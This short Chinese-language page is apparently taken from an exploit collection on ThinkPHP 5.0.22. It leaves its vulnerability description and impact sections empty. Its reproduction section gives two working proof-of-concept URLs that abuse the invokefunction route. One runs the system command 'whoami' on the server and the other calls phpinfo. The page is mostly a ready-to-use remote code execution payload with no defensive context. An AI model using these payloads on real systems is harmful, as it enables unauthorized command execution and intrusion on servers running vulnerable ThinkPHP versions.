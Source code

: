 # Thinkphp 5.0.22

> 原文：[http://book.iwonder.run/0day/Thinkphp/8.html](http://book.iwonder.run/0day/Thinkphp/8.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、poc

```
http://0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami 
```

### 2、poc

```
http://0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1 
```

